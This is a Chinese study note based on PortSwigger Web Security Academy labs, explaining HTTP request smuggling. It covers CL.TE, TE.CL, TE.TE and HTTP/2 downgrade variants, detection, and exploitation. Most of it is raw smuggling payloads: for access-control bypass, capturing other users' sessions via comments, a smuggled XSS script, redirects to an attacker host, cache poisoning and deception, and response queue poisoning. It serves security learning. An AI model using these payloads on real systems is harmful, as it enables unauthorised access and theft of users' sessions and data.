PortSwigger 网站和 BurpSuite 实验记录，网站地址：https://portswigger.net/  

Advanced topics 相关内容


# HTTP Request Smuggling (HTTP 请求走私)


## 概念

HTTP 请求走私是一种干涉web服务器处理正常用户发起的 HTTP 请求序列的技术，攻击者可能穿过安全机制，访问到未授权的敏感数据。  主要与 HTTP/1 有关。   

目前存在很广泛的web服务架构，是前端服务器转发 HTTP 请求到后端服务器，出于性能和效率的考虑，很多前端服务器会通过一个连接发送多个请求，后端服务器通过协议标识区分不同的请求。  



关键在于请求的分割界限，攻击者可能发送一个模糊的请求扰乱前后端原先各个 HTTP 请求的正常分割，这就可能导致严重的后果：




大多数 HTTP 请求走私产生的原因是  HTTP/1 中提供了两种标记 request 结束的 header ：`Content-Length` 和 `Transfer-Encoding` 。  

`Content-Length` 直接声明消息体的大小：

```http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

`Transfer-Encoding` 头可以声明消息体使用 chunked encoding(分块编码)，这样消息体中就包含多个数据块，每个块以字节为单位表示大小，跟一个换行符，再跟块内容。消息以一个大小为0的块终止，例如：

```http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

HTTP/1 中提供了两种不同的方法声明消息的长度，但一条消息中可能同时使用了两种方法，这样就产生了冲突。为了预防这个问题，两者同时存在时，`Content-Length` header 会被忽略。这样在单台服务器的情况下会避免歧义，但是在两台以上仍然可能存在该问题，主要原因有：

* 一些服务器不支持 `Transfer-Encoding` header
* 一些服务器虽然支持 `Transfer-Encoding`，但在含义不清的情况下不做处理

前后端之间对  `Transfer-Encoding` header 的处理存在差异，分割符差异导致请求走私。  


一些缩写：

```
CL (Content-Length)
TE (Transfer-Encoding)
0 (Implicit-zero)
H2 (HTTP/2's built-in length)
```


## 执行攻击

经典的请求走私攻击会在单个 HTTP/1 的请求中包含 `Content-Length` 和 `Transfer-Encoding` 两种 header ，控制他们进而导致前后端处理请求的差异，具体的方式取决于前后端服务器的差异，下面 CL 、TE 分别代表两种 header：

* CL.TE：前端使用 CL，后端使用TE
* TE.CL：前端使用 TE，后端使用 CL
* TE.TE：前端、后端都是用 TE


### CL.TE


```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

前端处理 `Content-Length: 13` 分割 13 个字节的长度，这样 SMUGGLED 就会被包含到一个请求发送到后端。后端处理采用 `Transfer-Encoding: chunked` 按照0字节的空行分割单个请求，SMUGGLED 就会被作为另一个单独请求处理。   


注：实验中要连续发送两次，才会将留在缓冲区的内容作为下次请求的头进行处理。


### TE.CL

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

前端使用 `Transfer-Encoding: chunked` ，按8个字节将 SMUGGLED 转发给后端，后端使用 `Content-Length: 3` 处理，将前3个字节视为一个请求，将 SMUGGLED 作为下个请求的内容处理。


注：结尾 0 之后要包含 `\r\n\r\n` 


### TE.TE

前后端都支持 TE 头，但其中一个服务器会被某种混淆头诱导从而不处理该头，一些常见的混淆头

```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

```

这些混淆技术都对标准 HTTP 规范做了微妙偏离，而实现协议规范的真实代码做不到绝对精确遵守 HTTP 规范，对不同变体的容忍就很常见，因此发现 TE.TE 漏洞就需要找到类似上面的变体，使得前后端只有一个服务器处理它，另一个服务器忽略它。  

根据被诱导不处理 TE 头的顺序，攻击形式与前面 CL.TE 或者 TE.CL 相同。


## 识别漏洞

大多数探测识别 HTTP 请求走私漏洞的技术是发送导致延迟响应。


### CL.TE

对于 CL.TE 类型的漏洞，可以通过发送类似如下请求：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

前端使用 CL 头，转发X之前的内容，将 X 忽略，而后端使用 TE 头，处理第一个 chunk 然后等待下一个 chunk，这里就可以观察到有延迟。  


### TE.CL

对于 TE.CL 类型的漏洞，可以通过发送类似如下请求：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

前端使用 TE 头，转发一部分，忽略 X。后端服务器使用 CL 头，认为有 6 字节数据，会等待更多内容到达，就能观察到延迟。  


注：如果应用有 CL.TE 漏洞，使用 TE.CL 的测试方法可能会干扰到正常用户的请求。为了减少干扰或者保持隐蔽，可以先使用 CL.TE 测试，当测试不成功时再继续 TE.CL 测试。  


### 根据 response 差异确认漏洞存在

当检测到可能存在请求走私漏洞时，可以尝试触发应用 response 响应内容的差异，进一步确认漏洞。  

向应用快速连续发送两个请求：

* 一个攻击请求，用来干扰下一个请求
* 一个正常请求

如果正常请求的响应中包含了预期的干扰，就可以确认漏洞存在。  

示例请求，一个正常请求如下，通过参数传递要检索的字符串：

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### **CL.TE**  

发送类似如下请求来确认 CL.TE 类型的漏洞：

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

如果存在漏洞，服务端将会收到看起来类似如下请求：

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

由于包含无效 URL，服务端返回 404 状态码，表明攻击请求干扰到了正常请求。  


### **TE.CL**  

发送类似如下请求来确认 TE.CL 类型漏洞：

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

如果存在漏洞，服务器会收到类似如下请求：

```http
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

同上一节一样，由于包含无效 URL，服务器返回 404，表明攻击干扰到了正常请求。


## 利用

http 请求走私可以被利用的地方取决于漏洞所在的功能模块。


### 绕过前端安全控制策略

一些应用在web前端服务器实施某些安全控制，决定是否允许处理单个请求，通过这些安全控制策略后再被转发到后端服务器。  

假设后端服务器不进一步检查前端发过来的请求，认为已经通过鉴权，这种情况下 http 请求走私就会被利用绕过访问控制，实现对受限 URL 的访问。  

例如用户被允许访问 /home 但不允许访问 /admin。可以使用如下请求走私绕过限制：

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

前端服务器根据 `Content-Length: 62` 认为收到两个访问 /home 的请求，就转发到后端服务器，后端服务器根据 `Transfer-Encoding` 判断为一个访问 /home 和一个 /admin 的请求，并认为前端服务器已经完成鉴权就允许请求访问。  


### 揭示前端请求重写

很多应用在前端服务器中会修改重写请求，然后再转发给后端服务器，通常是添加一些请求 header，例如：

* 终止 TLS 连接，添加描述所用协议、密码套件相关头部
* 添加包含用户 IP 的 `X-Forwarded-For` 头
* 根据用户的会话令牌确定用户 ID，并添加一个标识该用户的 header
* 其它敏感信息

很多情况下，如果请求走私中缺少前端添加的请求头，后端服务器不会正常处理此请求，就导致走私请求无法产生预期效果。  

有一种简单的方法可以精确揭示前端服务器是如何重写请求：

* 找到一个请求参数的值反射到应用程序响应中的 POST 请求
* 打乱参数顺序，使被反射的参数出现在消息体的最后
* 将这个请求走私到后端服务器，紧接着是一个你希望揭示其重写形式的正常请求


假设一个登录功能，反射了邮箱 email 参数值：

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

响应中包含如下值：

```html
<input id="email" value="wiener@normal-user.net" type="text">
```

就可以使用如下形式的请求走私来查看前端服务器的重写逻辑：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

上面的请求被前端服务器重写，包含了额外的 header，然后后端服务器处理走私的请求，并将重写后第二个请求视为 email 的值，将第二个请求的响应反射到这个值：

```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

由于最终请求被重写，我们不知道它有多长。请求走私中的 `Content-Length` 头的值将决定后端服务器认为请求数据有多长，如果太短只能收到部分重写请求，如果设的太长后端服务器可能会一直等待直到超时。一般是猜测一个比提交请求稍大的值，然后逐渐调整增加该值检索更多信息。  


### 绕过客户端认证

作为 TLS 握手的一部分，服务器提供证书向客户端证明自己。证书包含了 CN（Common Name），客户端验证这里的 CN 和正在访问的域名匹配。  

有些网站进一步实现了双向 TLS 认证，客户端也需要向服务器出示证书，这种情况下通常客户端的 CN 是用户名之类的，可以在后端应用程序中用作访问控制的一部分。  

认证客户端的组件通常通过一个或多个非标准 HTTP header 将证书中的信息传递给后端服务器或应用。例如，前端服务器将包含客户端 CN 的头附加到任何传入的请求中：

```http
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

由于这些 header 完全不经过客户端，由前端服务器添加，后端服务器容易隐式地信任这些请求。  

现实中通常不可利用，因为前端服务器要确认这些内容存在才会添加对应 header。但是如果存在请求走私，前端服务器无法查看到，请求会被原样发送到后端服务器：

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```


### 捕获其它用户请求

如果应用中包含任何允许存储并检索文本数据地功能，就存在潜在的可以被利用捕获其它用户的数据。这些内容可能是令牌、用户的敏感数据。适合作为攻击载体的功能：评论、邮件、个人资料、屏幕名称等。  

执行此攻击需要走私一个向存储功能提交数据的请求，其中包含要存储数据的参数被放置在最后。  

示例，假设一个博客评论功能使用如下请求：

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

现在将 `Content-Length` 头设置一个较长的值，并将 commont 参数放在最后：

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

这里发送的数据有 144 字节，但 CL 中设置了 400，此时后端服务器将等待其余数据到达，然后才发出 response，或者超时。当另一个请求过来时，剩余字节的数据就被返回：

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```

受害者的数据将被提交到对应的博客评论中，需要捕获更多内容就调整 CL 的值，但需要多轮尝试，超过就会超时。  

portswigger 实验：

```http
POST / HTTP/1.1
Host: 0a7400eb03bb8581809dd00600f1005b.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 327

0

POST /post/comment HTTP/1.1
Host: 0a7400eb03bb8581809dd00600f1005b.web-security-academy.net
Cookie: session=aBLaAZhjy1cd8kyoAHMsx15vjZ6DmIcf
Content-Length: 935
Content-Type: application/x-www-form-urlencoded

csrf=wcIVun0Q5bb19dhlXc3ka5nYjUfA0KNd&postId=1&name=carlos&email=h%40i.j&website=http%3A%2F%2Fk.l&comment=
```

被捕获的请求就被提交到对应 blog 的评论中：




这种技术的一个限制是通常会在参数分隔符出现的地方停止，例如常见的 URL 分隔符 `&`。


### 利用反射型 XSS

如果一个应用有请求走私漏洞，同时还有反射型 XSS漏洞，就可以利用请求走私攻击来使应用中的其他用户触发 XSS，这种方法比常规反射型 XSS 的优势有：

* 它不需要与受害者用户进行任何交互。只需要在走私请求中包含一个 XSS Payload 的请求，下一个用户就会命中触发。
* 它可以被利用控制常规反射型 XSS中无法轻易控制的 XSS行为，例如修改请求 header。

示例，应用在 UA 中存在反射型 XSS 漏洞，利用方法如下：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

下一个请求的用户将会收到 反射的 XSS Payload，这里是 alert(1)。


### 转换站内重定向为开放重定向

很多应用程序执行从一个 URL 到另一个 URL 的站内重定向，并将 Host 头中的主机名放到重定向 URL 中。Apache、IIS 等 Web 服务器的默认行为：对不带尾部斜杠的文件夹的请求，会收到一个重定向，指向包含尾部斜杠的同一文件夹（Nginx 的配置`server_name_in_redirect` 默认是 `On`，如果被显式设置为 `off` 也会如此）：

```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

这种行为通常是无害的，但在 http 请求走私中可以被利用，将其他用户重定向到外部域名。

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

走私的请求将触发一个到攻击者网站的重定向，将会影响后端服务器处理的下一个用户的请求，例如：

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

用户这里请求 /scripts/include.js ，攻击者可以在响应中返回自己的 js 的文件给受害者。  


```
1. 应用根据 Host 头生成重定向 URL
   ↓
2. 攻击者走私一个请求，其中 Host 头为 attacker-website.com
   ↓
3. 后端处理走私请求，生成重定向 Location: https://attacker-website.com/...
   ↓
4. 下一个用户的请求被拼接到走私请求后面
   ↓
5. 用户收到 301 重定向到攻击者域名
   ↓
6. 用户浏览器请求攻击者域名 → 攻击者返回恶意内容
```


**相对重定向转换为开放重定向**  

有时候会遇到使用路径为 `Location` header 构造相对 URL 的服务器级重定向，例如：

```http
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```

如果服务器允许在路径中使用协议相对 URL，这仍然可以被用于开放重定向：

```http
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```


```
正常根相对重定向：
GET /example → Location: /example/
  ↓
浏览器解释为：https://vulnerable-website.com/example/

协议相对 URL 绕过：
GET //attacker-website.com/example → Location: //attacker-website.com/example/
  ↓
浏览器解释为：https://attacker-website.com/example/
```

**核心**：`//` 开头的 URL 被浏览器解释为“协议相对”——使用当前页面的协议（如 `https`），但域名是 `//` 后面的部分。服务器如果直接将路径拼接到 `Location` 中，就会生成一个指向外部域名的重定向。  


### Web 缓存投毒

类似前面攻击形式的还有一种变体，可能利用 http 请求走私造成 web 缓存投毒攻击。如果前端基础设施出与性能等原因考虑，部分执行内容缓存，就有可能利用站外重定向 response 来向缓存投毒。这种攻击会持久化到缓存中，影响后续请求的用户。  

假设攻击者向服务端发送如下请求：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

走私的请求到达后端服务，后端服务器像之前一样执行站外重定向的 response 返回。前端服务器将这个 response 内容缓存到所认为的第二个请求(/static/include.js)中的 URL 中：

```http
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

后续用户请求此 URL 时，将会收到攻击者网站的重定向。  


### Web 缓存欺骗

另一个变体是 Web 缓存欺骗。  

web 缓存投毒和 web 缓存欺骗的区别：

* web 缓存投毒是攻击者引起应用程序存储一些恶意上下文到缓存中，其他用户会受到缓存中的恶意上下文影响
* web 缓存欺骗是攻击者引起应用程序存储一些其他用户的敏感信息到缓存中，攻击者从缓存中检索这些信息


示例，攻击者构造一个走私请求包含了获取用户隐私信息：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

下一个用户的请求 png 资源，被追加转发到后端服务器，包含了 session 、cookie 等信息，如下：

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

后端将该消息作为正常请求处理，返回包含个人隐私信息的内容，前端服务器将 response 作为第二个 URL 请求的缓存，这里是 `/static/some-image.png` ：

```http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

攻击者再访问该 URL 就能获取到敏感信息。  

不过这里攻击者不能提前直到受害者样访问的 URL 资源，因此需要大量检索静态资源 URL 以获取内容。  


## 高级请求走私


### HTTP/2 请求走私

HTTP/2 有时反而让网站更容易遭受请求走私攻击。  

#### HTTP/2 消息长度

请求走私从根本上讲是利用不同服务器之间对长度解析的差异。HTTP/2 引入了一种单一的、稳健的机制，一直被认为对请求走私免疫。  

HTTP/2 消息是以一系列“帧”发送，每个帧前面有一个显式的长度字段，告诉服务器读取多少字节。因此请求的长度是帧长度的总和。     

理论上这种机制是没有机会引入请求走私所需的歧义，但是协议降级会导致这种情况。  

#### HTTP/2 降级

HTTP/2 降级是使用 HTTP/1 的语法重写 HTTP/2 请求以生成等效的 HTTP/1 请求。Web服务器和反向代理服务器经常处于这个位置，向客户端提供 HTTP/2 支持，重写后转发到仅支持 HTTP/1 的后端服务器。


#### HTTP/2 消息表示说明

由于 HTTP/2 是二进制协议，BurpSuite 在文章中使用了一些人类可读形式表示 HTTP/2消息：

* 每条消息显示为单个实体，而不是独立“帧”
* 使用纯文本和值字段显示头部
* 在伪头部名称前加上冒号，以区别普通头部

但在真实传输中消息并非这种形式。  


一些说明：

* 换行符、冒号等字符在 HTTP/2 请求中没有特殊含义，并且可以以 HTTP/1 中不可能的方式注入。
* 伪头部，几个伪头部有效地取代了 HTTP/1 的请求行和状态行，共有五个伪头部
  * `:method` - 请求的 HTTP 方法，如 GET 或 POST。
  * `:path` - 请求路径。注意这包括查询字符串。
  * `:authority` - 大致相当于 HTTP/1 中的 Host 头。
  * `:scheme` - 请求方案，通常是 http 或 https。注意在 HTTP/1 中没有等价物。
  * `:status` - 响应状态码。
  * 在真实传输线路上，这些名称只是二进制字节，实际上并不包含冒号，这只是以人类可读格式呈现此信息的一种方式


#### H2.CL 漏洞

HTTP/2 无需在头部中指定长度。但在降级期间，前端服务器通常会添加一个 HTTP/1 的 `Context-Length` 头，使用 HTTP/2 的内置长度机制推导长度值。HTTP/2 也可以包含 `Context-Length` 头，有些前端服务器会简单的复用该值。  

HTTP/2 规范规定请求中的任何 `Context-Length` 头必须与使用内置计算机制的长度匹配，但是在降级之前并不是总做验证。前端使用 HTTP/2 中隐式的长度确定请求的结束位置，但是 HTTP/1 后端必须使用我们注入的 CL 头，从而导致反同步。  

示例，前端 HTTP/2：

```http
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
content-length	0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```

后端 HTTP/1：

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

注：在执行某些请求走私时，你希望追加受害者的头部到走私前缀上，但是一些情况下这些头部会干扰攻击，导致头部重复之类的问题。上面示例使用在走私前缀包中包含一个尾随参数和一个 `Context-Length` 头缓解该问题。通常使用一个比正文稍长的 `Context-Length` 头，受害者请求头仍会被追加到你的走私前缀上，但会在头部之前被截断。  


#### H2.TE 漏洞

HTTP/2 不兼容分块传输编码，任何注入的 `Transfer-encoding: chunked` 头都应该被剥离，或者完全阻止请求。  

如果前端服务器未实现拒绝或剥离分块传输编码，就会存在 H2.TE 请求走私攻击。  

示例，前端 HTTP/2 ：

```http
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
transfer-encoding	chunked
0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

后端 HTTP/1：

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```


#### 隐藏 HTTP/2 支持

浏览器和一些客户端通常只使用 HTTP/2 和那些在 TLS 握手期间通过 ALPN 明确宣称支持它的服务器通信。  

一些服务器支持 HTTP/2 ，但由于配置错误等原因未能声明，因此客户端会回退到 HTTP/1 ，这是很多客户端软件的默认行为。但可能测试需要强制 HTTP/2 。  

强制 BurpSuite 使用 HTTP/2 ：

1. 在设置对话框中，转到 Tools > Repeater。
2. 在 Connections 下，启用 Allow HTTP/2 ALPN override 选项。
3. 在 Repeater 中，转到 Inspector 面板并展开 Request attributes 部分。
4. 使用开关将 Protocol 设置为 HTTP/2。Burp 现在将在此选项卡上使用 HTTP/2 发送所有请求，无论服务器是否宣称支持它。  


### Response 队列投毒

响应队列投毒是请求走私中一种强大的攻击形式，会导致前端服务器开始将来自后端的响应映射到错误的请求上。  

通过走私一个完整的请求，从而实现后端期望一个响应时，引出两个响应。  

#### 影响

一旦队列被投毒，攻击者只要发出任意后续请求，就可以捕获到其它用户的请求响应。可能包含用户敏感数据、业务数据、会话令牌等。可能导致攻击者获取受害者账户的完全控制权。     


#### 构造队列投毒攻击

实施响应队列投毒，需要满足如下条件：

* 前端服务器和后端服务器之间的 TCP 被多个请求/响应周期性复用。
* 攻击者能够成功走私一个完整的、独立的请求，该请求从后端服务器收到自己独立的响应。
* 攻击不会导致任一服务器关闭 TCP 连接，因为无法确认请求应在何处结束，服务器通常在收到无效请求时关闭连接。


**后果**  

请求走私通常涉及走私一个部分请求，服务器将其作为前缀添加到下一个请求的开头。走私请求的内容会影响初始攻击之后连接上发生的事情。  



如果只走私一个请求行和一些头部，假设连接上不久之后又发送另一个请求，后端最终会看到两个完整的请求。  

如果改为走私一个包含请求体的请求，连接上下一个请求将被追加到请求走私的请求体上。通常会产生根据 CL 头截断最终请求的副作用。后端实际看到三个请求，其中第三个请求只是一系列剩余字节，如下所示：     

前端（CL）：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

后端（TE）：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

由于第三个请求不构成有效请求，通常会导致错误，服务器关闭连接。  

